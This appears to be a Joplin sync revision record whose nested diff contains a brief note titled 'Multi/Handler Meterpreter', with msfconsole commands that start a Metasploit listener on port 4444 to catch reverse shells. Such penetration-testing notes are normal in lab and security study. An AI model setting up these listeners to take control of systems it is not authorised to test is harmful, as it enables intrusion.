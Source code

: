 id: 09a8031d744b49699f732d186b1f2d64
parent_id: 
item_type: 1
item_id: 9a355ef58d6c431eaed103be0cb9d459
item_updated_time: 1646016697186
title_diff: "[{\"diffs\":[[1,\"3a639f03b2b2421284a079fceff56810\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"id: 3a639f03b2b2421284a079fceff56810\\\r\\\nparent_id: \\\r\\\nitem_type: 1\\\r\\\nitem_id: 0812f9fb8e424a30921fff6dbba3954c\\\r\\\nitem_updated_time: 1643603609683\\\r\\\ntitle_diff: \\\"[{\\\\\\\"diffs\\\\\\\":[[1,\\\\\\\"Multi/Handler Meterpreter\\\\\\\"]],\\\\\\\"start1\\\\\\\":0,\\\\\\\"start2\\\\\\\":0,\\\\\\\"length1\\\\\\\":0,\\\\\\\"length2\\\\\\\":25}]\\\"\\\r\\\nbody_diff: \\\"[{\\\\\\\"diffs\\\\\\\":[[1,\\\\\\\"For use with the Migration \\\\\\\\\\\\\n\\\\\\\\\\\\\nSearch the tags for 'meterpreter' \\\\\\\\\\\\\n\\\\\\\\\\\\\n> msfconsole\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> use multi/handler\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> set LHOST 0.0.0.0\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> set LPORT 4444\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> run\\\\\\\\\\\\\n\\\\\\\\\\\\\nOptions for migration\\\\\\\"]],\\\\\\\"start1\\\\\\\":0,\\\\\\\"start2\\\\\\\":0,\\\\\\\"length1\\\\\\\":0,\\\\\\\"length2\\\\\\\":175}]\\\"\\\r\\\nmetadata_diff: {\\\"new\\\":{\\\"id\\\":\\\"0812f9fb8e424a30921fff6dbba3954c\\\",\\\"parent_id\\\":\\\"b8fe3751a1b24ee7ad3f067e0a5bfdcd\\\",\\\"latitude\\\":\\\"0.00000000\\\",\\\"longitude\\\":\\\"0.00000000\\\",\\\"altitude\\\":\\\"0.0000\\\",\\\"author\\\":\\\"\\\",\\\"source_url\\\":\\\"\\\",\\\"is_todo\\\":0,\\\"todo_due\\\":0,\\\"todo_completed\\\":0,\\\"source\\\":\\\"joplin-desktop\\\",\\\"source_application\\\":\\\"net.cozic.joplin-desktop\\\",\\\"application_data\\\":\\\"\\\",\\\"order\\\":0,\\\"markup_language\\\":1,\\\"is_shared\\\":0,\\\"share_id\\\":\\\"\\\",\\\"conflict_original_id\\\":\\\"\\\",\\\"master_key_id\\\":\\\"\\\"},\\\"deleted\\\":[]}\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nupdated_time: 2022-01-31T04:33:37.787Z\\\r\\\ncreated_time: 2022-01-31T04:33:37.787Z\\\r\\\ntype_: 13\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1178}]"
metadata_diff: {"new":{"id":"9a355ef58d6c431eaed103be0cb9d459","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016697175,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:22.660Z
created_time: 2022-02-28T02:54:22.660Z
type_: 13